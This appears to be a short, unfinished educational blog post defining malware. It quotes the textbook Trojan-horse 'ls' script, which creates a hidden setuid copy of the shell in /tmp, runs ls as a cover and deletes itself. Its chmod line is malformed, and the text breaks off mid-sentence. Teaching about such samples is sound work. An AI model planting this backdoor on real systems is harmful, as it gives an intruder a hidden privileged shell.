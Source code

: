 ```yaml
---
layout: post
title:  "Gentle introduction to Malicious Software or Malware"
categories: [security]
comments: true
---
```


### Definition 

> Malicious logic, more commonly called malware, is a set of instructions that cause a site’s security policy to be violated.[^fn1]

In earlier days, when UNIX systems were popular, the hackers found a new way to get access to victims machine with a little piece of malicious code like the one below

~~~shell
#! /bin/sh 

# make a privileged, hidden copy of the shell (command interpreter) 
cp /bin/sh /tmp/.xxsh 
chmod o+s, w+x /tmp/.xxsh

# do what the victim thinks is *all* you’re doing 
ls $* 

# delete this file 
rm ./ls
~~~

When this file is saved with the file name 'ls' is victim's machine, 

### References:

[^fn1]: Computer Security - Arts and Science, *Matt Bishop* (Ch23 of 2nd Edition)